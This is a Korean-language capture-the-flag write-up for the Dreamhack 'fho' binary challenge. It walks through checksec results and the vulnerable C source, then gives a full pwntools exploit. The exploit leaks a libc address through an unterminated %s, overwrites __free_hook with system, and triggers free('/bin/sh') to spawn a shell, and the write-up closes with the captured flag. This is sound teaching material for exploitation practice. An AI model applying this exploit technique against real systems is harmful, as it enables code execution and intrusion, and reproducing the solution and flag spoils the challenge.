



# S4 · fho

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 보호 기법

`checksec` 결과는 다음과 같다.

| 보호 기법 | 상태 | 영향 |
|---|---|---|
| RELRO | **Full RELRO** | GOT이 읽기전용 → GOT overwrite 불가 → libc의 `__free_hook`을 대신 덮는다 |
| Stack Canary | found | 스택 오버플로로 RET을 덮는 공격이 막힌다. 이 문제는 RET을 안 덮고 `%s`로 스택을 읽기만 한다 |
| NX | enabled | 스택에 셸코드 실행 불가 → libc의 `system`을 재사용한다 |
| PIE | enabled | 바이너리 주소가 랜덤 → leak으로 얻은 libc 주소를 기준으로만 공격을 구성한다 |

Full RELRO라 GOT을 못 덮으므로, 쓰기 타겟을 바이너리가 아니라 **libc 안의 함수 포인터 `__free_hook`**으로 잡는 것이 이 문제의 핵심이다.

### 3. 코드

```c
// fho.c
int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);          // buf는 0x30인데 0x100 입력
  printf("Buf: %s\n", buf);     // buf를 %s로 출력 → leak 창구

  puts("[2] Arbitrary-Address-Write");
  scanf("%llu", &addr);         // 쓸 주소
  scanf("%llu", &value);        // 쓸 값
  *addr = value;                // addr에 value 기록 → 임의 주소 쓰기

  puts("[3] Arbitrary-Address-Free");
  scanf("%llu", &addr);         // free할 주소
  free(addr);                   // 임의 주소 free

  return 0;
}
```

문제가 세 가지 수단을 준다.
- **[1]** `printf("%s", buf)` — 스택을 읽어 주소를 흘릴 수 있는 leak 수단
- **[2]** `*addr = value` — 원하는 주소에 원하는 값을 쓰는 **임의 주소 쓰기**
- **[3]** `free(addr)` — 원하는 주소를 넘기는 **임의 주소 free**

### 4. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 21177)
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
system    = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh     = libc_base + next(libc.search(b'/bin/sh'))

# [2] Overwrite __free_hook with system
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())

# [3] free("/bin/sh") → system("/bin/sh")
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

p.interactive()
```

> `fho`, `libc-2.27.so`는 실행 폴더에 있어야 하고, libc는 준 `libc-2.27.so`가 서버 버전이라 그대로 맞는다.

아래는 이 코드의 [1] libc leak, 그리고 [2][3]이 `__free_hook`을 system으로 바꿔 셸을 여는 과정을 본 것이다.

### 5. libc leak — `%s`로 스택에서 주소 꺼내기

앞선 문제들(basic_rop, got_overwrite)은 `write`나 `puts`로 **GOT에 있는 함수 주소를 직접 출력**시켜 leak했다. 이 문제는 그런 출력 수단이 없고 `printf("Buf: %s\n", buf)` 하나뿐이라, **주소를 바로 볼 수가 없다.**

`%s`는 널(`\x00`)을 만날 때까지 출력한다. 그래서 buf를 **널 없이 가득 채우면** buf를 넘어 그 뒤 스택 메모리까지 이어서 출력된다. buf 다음에 있는 유일한 libc 포인터는 **저장된 반환주소**이고, main은 `__libc_start_main`에서 호출되므로 그 반환주소는 `__libc_start_main+231`을 가리킨다.

buf 시작부터 반환주소까지의 거리는 0x48이다.

```
낮은 주소
┌──────────────┐  ← buf 시작
│ buf   (0x30) │
│ addr  (0x8)  │   지역변수
│ value (0x8)  │   지역변수      → 여기까지 0x40
├──────────────┤
│ SFP   (0x8)  │                → 0x48
├──────────────┤
│ RET   (0x8)  │ __libc_start_main+231   ← %s가 여기까지 읽어서 출력
└──────────────┘
높은 주소

0x48 = buf(0x30) + addr(0x8) + value(0x8) + SFP(0x8)
```

```python
buf = b'A'*0x48                 # buf~SFP를 널 없이 채움
p.sendafter('Buf: ', buf)
p.recvuntil(buf)                # 에코된 A 0x48개 버림
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)  # 그 다음 = 반환주소
```

`%s`는 A 0x48개를 지나 반환주소까지 출력하고, 반환주소는 `0x00007f...` 형태라 상위 널에서 멈춘다. 흘러나온 6바이트에 `b'\x00'*2`를 붙여 8바이트로 복원한다.

**왜 libc를 이용하나:** 공격에 쓸 `system`, `__free_hook`, `"/bin/sh"`가 전부 libc 안에 있고, ASLR로 libc가 올라가는 주소(base)가 매 실행마다 바뀐다. 그래서 반환주소를 leak해 base를 구하고, 나머지는 base에 오프셋을 더해 계산한다.

```python
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# libc_base = libc_start_main_xx - libc.libc_start_main_return 로도 동일
system    = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh     = libc_base + next(libc.search(b'/bin/sh'))
```

231은 `__libc_start_main` 안에서 `call main` 다음 명령까지의 오프셋이고 libc 버전마다 다르다. `libc.libc_start_main_return`을 쓰면 버전에 안 묶인다.

### 6. 익스플로잇 — `__free_hook`을 `system`으로

glibc의 `free()`는 호출될 때 `__free_hook`에 값이 있으면 원래 free 대신 **`__free_hook(ptr)`를 부른다.** 따라서 `__free_hook`에 `system`을 써두고 `free("/bin/sh")`를 호출하면 `system("/bin/sh")`이 된다.

입력 세 값을 순서대로 넣는다.

```python
# [2] __free_hook에 system 쓰기
p.sendline(str(free_hook).encode())   # To write: 쓸 주소  = __free_hook
p.sendline(str(system).encode())      # With:     쓸 값    = system

# [3] free 트리거
p.sendline(str(binsh).encode())       # To free:  free할 주소 = "/bin/sh"
```

- **free_hook** — `*addr = value`에서 "어디에 쓸지"(addr). `__free_hook`의 주소.
- **system** — "뭘 쓸지"(value). 이 둘로 `*addr = value`가 **`__free_hook` 메모리에 system을 기록**한다.
- **binsh** — `free(addr)`에 넘길 주소. `free("/bin/sh")` → `__free_hook("/bin/sh")` → `system("/bin/sh")`.

**포인터 변수 `addr`의 동작:** `addr`는 지역 포인터 변수다. [2]에서 `addr = free_hook`로 두고 `*addr = value`를 실행하면 **`__free_hook` 메모리에 system이 기록되고, 이 쓰기는 끝난다.** [3]에서 `addr = binsh`로 다시 받는 것은 **변수 값만 바꾸는 것**이라, 앞서 `__free_hook`에 써둔 값은 그대로 남는다. 같은 변수를 [2]에서는 "쓸 주소", [3]에서는 "free할 주소"로 재사용할 뿐이다.

### 7. 실행 결과

leak으로 libc base를 구하고, `__free_hook`을 system으로 덮은 뒤 `free`로 셸을 열어 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{a8529ace5e50480658a645aa1a1c88291784335c1c54c5b89d0f43ad1893730c}
```
